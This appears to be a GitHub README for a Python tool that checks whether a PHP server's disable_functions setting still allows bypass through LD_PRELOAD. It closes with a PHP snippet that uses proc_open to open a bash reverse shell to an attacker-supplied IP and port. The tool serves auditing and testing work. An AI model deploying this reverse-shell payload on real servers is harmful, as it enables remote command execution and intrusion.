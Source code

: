 <p align="center"><img src="images/banner.png" /></p>

# Dfunc-Bypasser
This is a tool that can be used by developers to check if exploitation using LD_PRELOAD is still possible given the current disable_functions in the php.ini file and taking into consideration the PHP modules installed on the server.

## Installation
`git clone https://github.com/UsifAraby/dfunc-bypasser-python3.git`

## Usage
There are two options to input the disable_functions list:
1. For help on the parameters:
`python3 dfunc-bypasser-python3.py -h`
2. Provide the phpinfo url:
`python3 dfunc-bypasser-python3.py --url https://example.com/phpinfo.php`
3. Provide the local phpinfo file:
`python3 dfunc-bypasser-python3.py --file dir/phpinfo`
4. Provide an additional header:
`python3 dfunc-bypasser-python3.py -H "Special-Header: dev"`

## Contributers
1. S Ashwin Shenoi
    * Github: [ashwinshenoi99](https://github.com/ashwinshenoi99)
    * Twitter: [c3rb3ru5](https://twitter.com/__c3rb3ru5__)
2. Tarunkant Gupta
    * Github: [tarunkant](https://github.com/tarunkant/)
    * Twitter: [TarunkantG](https://twitter.com/TarunkantG)

from team [bi0s](https://bi0s.in)

## Screenshots

<img width="1101" height="621" alt="image" src="https://github.com/user-attachments/assets/0df047f4-4ecd-47a5-9369-fc1718a275b5" />


## RCE through `proc_open` :

```
<?php
// Vulnerable PHP versions: 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8

$command = "bash -c 'bash -i >& /dev/tcp/{Custom_IP}/{Custom_PORT} 0>&1'";
$descriptors = [
  0 => ['pipe','r'],
  1 => ['pipe','w'],
  2 => ['pipe','w']
];
$process = proc_open($command, $descriptors, $pipes);
if (is_resource($process)) {
    echo stream_get_contents($pipes[1]);
    proc_close($process);
} else {
    echo "proc_open failed\n";
}

?>
```

<img width="1878" height="891" alt="image" src="https://github.com/user-attachments/assets/ea05cfe4-3f7c-4601-b4b5-d7454c82b651" />



